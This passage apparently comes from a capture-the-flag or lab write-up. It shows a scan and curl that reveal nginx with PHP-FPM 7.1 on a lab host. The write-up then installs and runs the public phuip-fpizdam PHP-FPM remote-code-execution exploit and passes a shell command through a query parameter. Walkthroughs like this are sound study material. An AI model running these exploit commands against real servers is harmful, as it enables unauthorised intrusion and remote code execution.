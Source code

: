 Only one port was discovered (out of 1000 most popular ones) and it turned out to be port 80 with `nginx 1.14.0`. Simple curl was made to it:
```console
$ proxychains -q curl -vv http://192.168.254.3/
*   Trying 192.168.254.3:80...
* Connected to 192.168.254.3 (127.0.0.1) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.254.3
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Wed, 24 Nov 2021 18:22:18 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< X-Powered-By: PHP-FPM/7.1
<
batch mode: /usr/bin/ersatool create|print|revoke CN
* Connection #0 to host 192.168.254.3 left intact
```

As can be seen in `X-Powered-By` header, PHP with FPM is working behind that nginx webserver. This combination has [well known](https://www.exploit-db.com/exploits/48182) `RCE` vulnerability which can be found in searchsploit:

![fpm](images/searchsploit-fpm.png)

We used [publicly available go package](https://github.com/neex/phuip-fpizdam) which we found more stable via proxy than metasploit version:
```console
$ go get github.com/neex/phuip-fpizdam
$ proxychains ~/go/bin/phuip-fpizdam http://192.168.254.3/index.php
$ proxychains curl "http://192.168.254.3/index.php?a=/bin/sh+-c+'which+which'&"
```

![fpm-exploit1](images/fpm-exploit-working.png)